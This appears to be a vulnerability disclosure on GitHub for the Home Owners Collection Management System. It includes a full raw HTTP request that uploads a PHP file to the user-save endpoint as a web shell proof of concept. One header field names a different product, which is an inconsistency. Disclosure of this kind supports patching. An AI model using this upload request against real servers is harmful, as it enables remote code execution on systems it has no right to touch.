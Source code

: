 
Web shell via File upload functionality in Home owners collection management system

Description: Web shell via file upload functionality in Home Owners Collection Management System from Sourcecodester website.

[Vulnerability Type] Web shell via file upload functionality.

[Vendor of Product] https://www.sourcecodester.com/php/15162/home-owners-collection-management-system-phpoop-free-source-code.html

[Affected Product Code Base] Student Attendance Management System

[Affected Component] http://localhost/hocms/classes/Users.php?f=save

[Attack Type] Remote

[Impact Information Disclosure] true

[Attack Vectors] Steps to reproduce:
Navigate to the url http://localhost/hocms/classes/Users.php?f=save

Malicious files can be uploaded to the target server through the following POC

```
POST /hocms/classes/Users.php?f=save HTTP/1.1
Host: localhost
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:95.0) Gecko/20100101 Firefox/95.0
Accept: */*
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
X-Requested-With: XMLHttpRequest
Content-Type: multipart/form-data; boundary=---------------------------30759839707972018371739994671
Content-Length: 912
Origin: http://localhost
Connection: close
Referer: http://localhost/hocms/admin/?page=user/manage_user&id=7
Cookie: PHPSESSID=gvqin8eud72gen7qgf6sots4n0
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin

-----------------------------30759839707972018371739994671
Content-Disposition: form-data; name="id"

7
-----------------------------30759839707972018371739994671
Content-Disposition: form-data; name="firstname"

Claire
-----------------------------30759839707972018371739994671
Content-Disposition: form-data; name="lastname"

Blake
-----------------------------30759839707972018371739994671
Content-Disposition: form-data; name="username"

cblake
-----------------------------30759839707972018371739994671
Content-Disposition: form-data; name="password"


-----------------------------30759839707972018371739994671
Content-Disposition: form-data; name="type"

2
-----------------------------30759839707972018371739994671
Content-Disposition: form-data; name="img"; filename="1.php"
Content-Type: image/x-icon

<?php phpinfo();?>
-----------------------------30759839707972018371739994671--
```
<img width="1264" alt="image" src="https://github.com/GAO-UNO/cve/assets/131429880/b52f2262-442c-4406-a2f9-8ef65a2c5c8d">

Access the target server malicious file 1.php

<img width="1229" alt="image" src="https://github.com/GAO-UNO/cve/assets/131429880/d695b66b-0e32-49fe-8daf-b420b792bfea">


